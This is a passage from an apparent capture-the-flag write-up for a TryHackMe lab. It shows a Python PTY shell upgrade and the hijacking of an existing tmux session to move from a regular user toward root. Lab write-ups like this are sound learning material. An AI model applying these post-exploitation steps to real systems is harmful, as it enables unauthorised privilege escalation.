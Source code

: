 **Then spawn a PTY shell:**
```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
marston@incognito:~$ 
```

### marston to root

**Now, we should able to list `tmux` sessions:**
```shell
marston@incognito:~$ tmux ls
0: 9 windows (created Fri Jan 20 07:54:43 2023) [80x24]
```

Nice!!

**Let's attach that session!**
```shell
marston@incognito:~$ export TERM=xterm-256color
marston@incognito:~$ stty rows 47 columns 212
marston@incognito:~$ tmux attach -t "0"
```

> Note: You must set the `TERM` environment variable to a valid terminal.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120193001.png)

Umm... Let's google how to use Tmux.

[This tutorial](https://leimao.github.io/blog/Tmux-Tutorial/) looks good.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Cold-VVars/images/Pasted%20image%2020230120193045.png)
